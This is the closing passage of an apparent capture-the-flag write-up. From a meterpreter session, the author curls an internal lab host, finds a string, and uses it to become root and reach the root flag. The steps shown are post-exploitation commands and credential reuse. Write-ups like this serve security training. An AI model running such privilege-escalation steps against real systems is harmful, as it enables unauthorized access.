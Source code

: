 ```bash
meterpreter > shell
curl 10.10.10.10
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    17  100    17    0     0   8933      0 --:--:-- --:--:-- --:--:-- 17000
.:.AzerBulbul.:.
```

What is this? It is plain but with weird characters... maybe a password?



# Root Flag


```bash
su azer
Password: .:.AzerBulbul.:.
su: Authentication failure
su root
Password: .:.AzerBulbul.:.
whoami
root
```
Well, I did not expect that...
The root flag can be found in the /root directory.

Thanks for reading my write-up!

# End